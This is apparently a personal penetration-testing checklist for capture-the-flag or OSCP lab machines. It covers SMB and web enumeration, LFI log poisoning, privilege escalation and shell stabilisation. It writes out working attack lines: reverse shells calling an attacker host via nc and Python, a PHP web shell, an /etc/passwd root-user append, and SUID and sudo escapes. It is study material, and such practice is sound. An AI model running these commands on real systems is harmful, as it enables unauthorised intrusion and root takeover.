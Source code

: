 # Checklist
# Preperation

<details>
  <summary>Expand</summary>

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)

</details>


# Enumeration

<details>
  <summary>Expand</summary>

<details>
  <summary>NMAP</summary>

- [Howto](../../active-information-gathering/nmap.md)
- Copy key findings to report
- check results
- Paste to [report](templates/report.md)
- Highlight exploitables/targets	

</details>	

<details>
  <summary>Rustscan</summary>

	- Test	

</details>	
	

<details>
  <summary>enum4linux</summary>
<br />

- [ ] `enum4linux $IP` -> users, share, comon structure, server block.
	- [ ] Highlights
	- [ ] check results
	- [ ] Check SMB null session
	- [ ] system level users	

</details>	


<details>
  <summary>nmap-nse</summary>
<br />

1. [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)

</details>

<details>
  <summary>smb/netbio-ssn</summary>

	- Ports [139, 445]
	- `mkdir smb`
	- `nmap -p139,445 --script=smb-enum-shares $IP`
		- `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
		- smbclient //'IP'/qui -N
		- crackmapexec
		- mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
	- `smbmap -H $IP`
	- `smbclient --no-pass -L //$IP`
	- `smbclient --no-pass \\\\$IP\\anonymous`
	- `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
	- `smbclient //192.168.10.10/sambashare` [without variable]
	- `mget file.name` [Download file.name]
	- `smbmap -u <user> -p <PassWord> -H $IP`
	- `smbclient //'IP'/<share> -U'user'%'password'`
	- `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`	

</details>
	
<details>
  <summary>Apache Tomcat</summary>

	- Apache Tomcat [8080]
			- Read Version
			- Check URL (hints)
			- default credentials
			- mfsconsole /is it allowed?
	
</details>

<details>
  <summary>Domain</summary>

	- TODO
	
</details>

<details>
  <summary>ssl/pop3</summary>

	- TODO
	
</details>
	
<details>
  <summary>ssl/imap</summary>

	- TODO
	
</details>
	
<details>
  <summary>TOPIC</summary>

	- TODO
	
</details>
	
<details>
  <summary>	Morse code</summary>

	- Test	

</details>
	
<details>
  <summary>shellshock</summary>

- /cgi-bin
	- [ ] shellshock [Howto](../../foothold/shellshock/README.md)	
	

</details>
	
<details>
  <summary>SSH</summary>

	- hydra
		- [Howto](tools/bruteforce/ssh/hydra)
		- `curl -A "GoogleBot" http://$IP/robots.txt`
		- searchsploit
		- Port knocking
		- nmap port knock 

</details>
	

<details>
  <summary>WEB Enum</summary>
	
- Load each targetted port in browser
- export PORT=80
- `dirb http://$IP:$PORT/ -r`
- `nikto --host http://<IP> -C all` :: tool for webapp
- `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
	- HTTPS you will want to include protocol too
	- `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
	- `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
	- framework/server/service -> searchexploit
	- Check for config through URL's like
	- hostname/username/re-use etc
- LFI
    - Find vulnerability
    	- `curl http://$IP:$PORT?arg=../../../../../etc/passwd`
    - Log Posining
		- Attemp to poision log
          - `echo "GET <?php echo 'TEST123' ?> HTTP/1.1" | nc $IP $PORT`
		  - `echo "GET <?php system('nc -e /bin/bash $ATTACKER_IP $ATTACKER_PORT'); ?> HTTP/1.1" | nc $VICTIM_IP $VICTIM_PORT`
        - Trigger to check if posioning was successful
          - `curl http://$IP:$PORT?book=../../../../../var/log/apache2/access.log`
          - This would initiate above create reverse shell.
	- Post LFI
    	- Password cracking?
        	- e.g: john hash.txt
- check for ssh keys
- check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
- vsftpd -> upload, to rce from upload file
- ftp -> anonymous and reading of those files
- source code dump or any expose?
  - function level exploits?
    - example backup file containing exploitable functions.
- RFI
	- rev shell
		- https://www.revshells.com/
			- `python -c 'import pty;pty.spawn("/bin/bash")'`
	- `linpeas.sh`
- CUPS Http `631`

- Wordpress
  - wpscan

- Drupal
  - droopescan
  - `droopescan scan -u  http://192.168.1.1/`
- Credential Discovery
  - Trying some well-known default credentials (e.g. admin:admin, admin:password, admin:root, etc.) , find default username for the software.

- Last resort
  - Metasploit (if exploit is available)

- Credential Discovery
  - Trying some well-known default credentials ( admin:admin, admin:password, admin:root)


</details>

</details>


# Privilege Escalation

<details>
	<summary>Expand</summary>

- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] relative path exploitable?
    	- [ ] Example: `sudo /sudo_permited_location/../home/user/my_file`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> [interactive terminal spawned via python](../../Explain/READEME.md)
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] Netstat alternative `ss -tunlp`
	- [ ] cat /etc/crontab
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] `ps ps auxwf` -> Check for any writeable
	Or,
	- [ ] `find / -type f -user root -perm /o=w | grep -v '/proc/`
	- [ ] File transfer
		- [ ] [Python http.server](../../tools/file-transfer#python-simple-http-server)
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] Privilege escalation Enum
		- [ ] `https://github.com/diego-treitos/linux-smart-enumeration` (is this allowed in OSCP?)
		- [ ] `https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`  (is this allowed in OSCP?)
	- [ ] `kernel exploits?`
		- [ ] https://github.com/mzet-/linux-exploit-suggester
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)
	- [ ] `world writable exploit`
    	- [ ] `echo "<?php system('chmod +s /usr/bin/find'); ?>" > /stuffed`
    	- [ ] Using find related exploit
        	- [ ] `find .-exec /bin/bash -p \; -quit`

</details>


# Remote Code Execution (RCE)

<details>
	<summary>Expand</summary>

- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
				- [ ] hURL -U export RHOST="$IP"; export RPORT="$PORT";python -c xxxx 
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


# Reverse Shell

<details>
	<summary>Expand</summary>

- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python/python3 -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`

</details>
